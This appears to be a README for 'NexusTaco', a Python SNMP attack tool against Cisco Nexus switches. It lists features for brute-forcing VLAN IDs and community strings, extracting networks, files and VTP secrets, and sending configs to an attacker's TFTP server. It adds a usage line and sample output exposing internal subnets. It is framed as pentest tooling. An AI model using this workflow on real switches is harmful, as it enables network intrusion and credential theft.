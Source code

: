 NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family). There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:
*Finds Nexus switches specifically since they seem to reply to bogus community strings
*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)
*Bruteforces snmp community strings To find the following:
**System uptime
**Configured networks (leverage more ground)
**Files and folders
**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)
**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.
TODO:
*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch
*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)
*Show logged in users
*Disable snmp traps 
*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).
*Use getopt …..
*Router reload over snmp just for evilness.
*Anything else I forgot.

$ python NexusTaco.py 
python NexusTaco.py CIDR <your-tftp-server-ip> <number of vlans to bruteforce>
$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100
Thanks nmap for the ip list
Finding vulnerable switches
x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on:  x.x.x.x  With incorrect community string

Host: x.x.x.x has VlanID 1 Configured
Host: x.x.x.x has VlanID 2 Configured
Host: x.x.x.x has VlanID 3 Configured
Host: x.x.x.x has VlanID 4 Configured
Host: x.x.x.x has VlanID 5 Configured
Host: x.x.x.x has VlanID 6 Configured
Host: x.x.x.x has VlanID 7 Configured
Host: x.x.x.x has VlanID 8 Configured
Host: x.x.x.x has VlanID 10 Configured
Host: x.x.x.x has VlanID 31 Configured
Host: x.x.x.x has VlanID 32 Configured
Host: x.x.x.x has VlanID 33 Configured
Host: x.x.x.x has VlanID 34 Configured
Host: x.x.x.x has VlanID 35 Configured
Host: x.x.x.x has VlanID 40 Configured
Host: x.x.x.x has VlanID 64 Configured
Host: x.x.x.x has VlanID 65 Configured
Host: x.x.x.x has VlanID 97 Configured
Host: x.x.x.x has VlanID 98 Configured
Host: x.x.x.x has VlanID 99 Configured
Host: x.x.x.x has VlanID 100 Configured

Bruteforcing for community strings
[public] Found as community string

Getting system uptime
Timeticks: (1430420910) 165 days, 13:23:29.10

Grabbing Configured Networks
10.1.4.1/255.255.255.0
10.1.8.1/255.255.248.0
10.1.16.1/255.255.255.0
10.2.128.1/255.255.192.0
10.3.128.1/255.255.192.0
10.4.0.1/255.255.192.0
10.5.0.1/255.255.192.0
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.0
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.192
172.16.254.18/255.255.255.252
172.19.242.1/255.255.255.0
172.19.248.1/255.255.248.0
172.21.6.1/255.255.255.0
172.30.0.1/255.255.252.0
x.x.x.x/255.255.254.0
192.168.30.230/255.255.255.240
192.168.101.1/255.255.255.252
192.168.101.5/255.255.255.252
192.168.101.14/255.255.255.252
192.168.101.18/255.255.255.252
192.168.101.21/255.255.255.252

Grabbing files and folders
lost+found
n5000-uk9-kickstart.5.0.3.N2.1.bin
n5000-uk9.5.0.3.N2.1.bin
mts.log
vdc_2
vdc_3
vdc_4
LAN_BASE_SERVICES_PKG.lic
n5000-uk9-kickstart.6.0.2.N2.3.bin
n5000-uk9.6.0.2.N2.3.bin
assoc_ascii_cnv.log
virt_strg_pool_bf
icmpv6.6.3538.log
icmpv6.14.3538.log

VTP secret=  ""
VTP auth password=  ""

Read community string found, cannot copy configuration to tftp. Try a better wordlist.
